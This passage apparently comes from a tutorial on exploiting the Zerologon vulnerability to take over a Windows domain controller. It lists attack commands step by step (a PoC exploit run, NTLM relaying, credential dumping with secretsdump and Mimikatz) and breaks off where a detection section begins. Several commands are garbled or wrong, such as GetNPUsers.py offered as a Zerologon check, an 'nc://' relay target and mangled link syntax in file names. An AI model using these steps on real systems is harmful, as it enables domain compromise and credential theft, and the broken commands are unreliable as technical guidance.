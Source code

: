 ```basic
python3 [GetNPUsers.py](http://getnpusers.py/) -dc-ip <DC_IP> -domain <DOMAIN> -user <USER>
```

If the request is successful, it indicates that the DC is vulnerable to Zerologon.

---

 **`Step 2: Exploit the Zerologon Vulnerability`**

Now that we know the **Domain Controller** is vulnerable, we can exploit the vulnerability.

- **Run Zerologon exploit** using the **PoC (Proof of Concept)** script. This will send specially crafted packets to the Domain Controller, exploiting the weak cryptographic implementation and gaining unauthorized access.

```basic
python3 [zerologon.py](http://zerologon.py/) -target <dc_ip>
```

The PoC script sends a series of **crafted Netlogon messages** that force the Domain Controller to authenticate the attacker without proper validation.

Alternatively, you can use **Impacket's ntlmrelayx** to relay SMB authentication requests:

```basic
python3 [ntlmrelayx.py](http://ntlmrelayx.py/) -t nc://<dc_ip>:445
```

This bypasses the normal authentication process and allows the attacker to impersonate any machine in the domain (including the Domain Controller itself).

---

### **`Step 3: Gain Domain Admin Privileges`**

Once the attacker is able to impersonate the Domain Controller, they can escalate their privileges and take full control of the domain.

- **Dumping credentials with Impacket**:

```basic
python3 [secretsdump.py](http://secretsdump.py/) -target <dc_ip> -user <user> -password <password>
```

This command allows you to extract **hashes and credentials** from the Domain Controller.

- **Use Mimikatz** to escalate privileges and dump passwords:

```basic
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

Once you have access to the Domain Admin credentials, you can **change passwords**, **create new admin accounts**, or **reset account passwords**.

---

### `**5. Detection & Blue Team View**`

**Detecting Zerologon** can be challenging because it exploits a **protocol-level vulnerability**, leaving minimal traces. However, there are still **signs** that can help you identify the attack.
